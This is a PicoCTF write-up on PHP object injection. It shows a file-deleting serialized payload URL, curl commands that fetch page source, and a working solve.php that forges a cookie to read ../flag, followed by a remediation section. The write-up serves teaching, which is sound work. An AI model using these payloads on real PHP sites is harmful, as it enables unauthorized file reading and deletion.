

# PicoCTF: Super Serial

## Context

We are provided with a website that has a login page. We are not provided any source code. The hint is: "The flag is at ../flag".

## Background Information: PHP Object Injection and Serialization

Serialization is the process of turning an object into a string. Unserialization is the reverse, turning a string back into an object. Since we are dealing with PHP, we will be converting PHP objects into strings and vise versa using `serialize()` and `unserialize()`.

If user-generated input is directly passed to an `unserialize()` function without sanitization, then malicious user-generated content could be executed, leading to file traversal, file deletion, or remote code execution, depending on the functions in the PHP script.

For example, the function `__destruct()`:

```php
function __destruct()
   {
      $file = "/var/www/cache/tmp/{$this->cache_file}";
      if (file_exists($file)) @unlink($file);
   }
```

An attacker could enter the following payload:

`http://testsite.com/vuln.php?data=O:8:"Example1":1:{s:10:"cache_file";s:15:"../../index.php";}`

This would set `cache_file` to `../../index.php`, deleting that file.

(Source at bottom of file)

## Vulnerability

The vulnerability seen in this CTF is the use of user-generated PHP object content being directly unserialized before being sanitized in any way. Also, the use of magic functions like `__toString()` are dangerous if misused.

## Exploitation

As we are given no source code for this challenge, we may try to get more information by using the `curl` command. 

We may try to visit different pages on the website. After some trial and error, we are able to find the pages `authentication.php` and `cookie.php`. These were found with the following commands:

`curl http://mercury.picoctf.net:5428/authentication.phps`

`curl http://mercury.picoctf.net:5428/cookie.phps`

The `.phps` extension is needed to see the source code of these pages. I used `curl` to get this source code since BurpSuite Repeater just gave me a "Forbidden" response. It's likely that `curl` has fewer filters, allowing us to see the source code of these pages.

Note: The pages `authentication.php` and `cookie.php` were found because those are common names to look for. However, using a tool like GoBuster to look for pages is a more efficient way of finding useful pages of a site.

Analyzing `authentication.php`:
1. Execute the file `cookie.php`, which will give us a `$perm` object.
2. `isset($perm) && $perm->is_admin()`: If permissions are set and they are specifically for `admin`, then make a new access log: `$log = new access_log("access.log");`
3. `access_log` is a class with various functions, including `__toString()` which calls `read_log` to ultimately print the contents of the `log_file`
4. Append this to the pre-existing log files.

Analyzing `cookie.php`:
1. If there is a `login` cookie set, then set `$perm` object to the unserialized, decoded cookie: `$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));`
2. Perform `is_guest` and `is_admin` on the object to see which permissions to set.
3. If there is an error with these operations, call `die("Deserialization error. ".$perm);` which will print "Deserialization error." concatenated with the contents of `$perm`.

Since `authentication.php` calls `cookie.php`, let's construct some sort of payload to send to `authentication.php`. 

We realize that the unserialization happening on `($_COOKIE["login"])` is unchecked, and therefore whatever we pass in will be turned into a `$perm` object. If we don't pass in a valid `$perm` object, then unserialization will still happen successfully. However, the subsequent call to `$g = $perm->is_guest();` will fail because it's not a valid `$perm` object. Then, we will fall through to our `catch`, and this line will execute: `die("Deserialization error. ".$perm);`. That will cause `$perm` to try to be printed, triggering `__toString()` in `authentication.php`. `__toString()` calls `read_log()` which performs an operation to get the contents of the current `log_file`. So, if we pass in a path to a file, we will get the contents of that file!

Since our hint told us the flag is at `../flag`, we can assume that is the path we will use.

To pass in this path, we must encode it in a way the site will recognize and try to parse. Recall that `cookie.php` looks for a cookie named `login`. If we can hide `../flag` in a `login` cookie, we could send that cookie to the site. Also recall the pattern that is used to get `$perm`: `$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));`. We may reverse this process to get `../flag` hidden in our cookie. See `solve.php` which goes through this process:

Create an `access_log` object with `../flag`:

```php
class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}

// Create the object with the target credentials
$malicious = new access_log("../flag");
```

Serialize and encode the object:

`$cookie = urlencode(base64_encode(serialize($malicious)));`

Output this result:

```php
echo "Malicious cookie value:\n";
echo "login=" . $cookie . "\n";
```

`solve.php` outputs the following:

`login=TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9`

Let's add this cookie to our payload to the site's `authentication.php` page. I used BurpSuite Repeater to edit and send the payload (you could also use `curl` to send the payload).



## Remediation

A super easy way to resolve this issue is to avoid the use of `unserialize()`, and instead use JSON decoders.

# Sources/Credits

Written by Madalina Stoicov

- https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection
- https://medium.com/@mayank_prajapati/exploiting-php-insecure-deserialization-2e301557f12f
- https://www.php.net/manual/en/language.oop5.magic.php
